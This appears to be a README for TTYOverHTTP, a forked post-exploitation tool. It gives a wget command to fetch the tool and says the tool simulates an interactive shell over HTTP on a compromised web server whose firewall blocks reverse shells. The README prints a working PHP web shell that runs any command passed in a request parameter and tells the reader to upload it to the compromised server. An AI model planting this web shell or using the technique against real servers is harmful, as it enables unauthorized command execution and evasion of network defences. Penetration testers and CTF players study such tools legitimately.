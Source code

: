 # TTYOverHTTP
```shell
wget https://raw.githubusercontent.com/jaumesaa/easier-ttyoverhttp/master/tty_over_http.py
```
*esto es un fork de s4vitar, ¿estamos?*
--------------------------------------------
Sometimes when we compromise a web server, there are configured rules (**Ex: iptables**) that prevent us from obtaining a Reverse Shell via Netcat, Python, or another utility.

 With this tool, we avoid having to use a reverse shell to
 obtain a TTY later fully interactive.  Through files
 '**mkfifo**', we play to simulate an interactive TTY over HTTP, achieving
 manage the system comfortably without any type of problem.

 The only thing we need is to upload a PHP structure like the following to the compromised server to execute commands:
```php
<?php
	echo shell_exec($_REQUEST['cmd']);
?>
```

 After its execution, you'll have a tty that will allow you to execute commands that the firewall or other filters were filtering and will simulate commands like "cd.." or "pwd", to navigate between directories comfortably, JUST LIKE AN INTERACTIVE TTY!!

